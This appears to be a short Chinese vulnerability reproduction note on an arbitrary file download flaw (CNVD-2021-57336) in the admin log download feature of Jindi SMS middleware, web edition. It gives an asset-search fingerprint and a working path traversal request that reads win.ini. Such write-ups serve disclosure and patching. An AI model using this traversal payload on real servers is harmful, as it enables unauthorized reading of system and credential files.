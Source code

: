 # 金笛 短信中间件Web版 log 后台任意文件下载漏洞 CNVD-2021-57336

## 漏洞描述

金笛 短信中间件Web版后台存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件信息

## 漏洞影响

<a-checkbox checked>金笛 短信中间件Web版</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="金笛短信中间件(WEB版)"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630892591726-addf7f10-4238-4266-92ef-758540f4142a.png)

存在漏洞的位置为 日志下载

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630892623230-03e19886-0499-4cbb-9cbf-abf9ca8ec2e2.png)

验证POC

```python
/log?action=view&pageIndex=1&name=../../../windows/win.ini
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630892646440-d5dfd8da-0c22-49e4-86c3-d2978938f824.png)
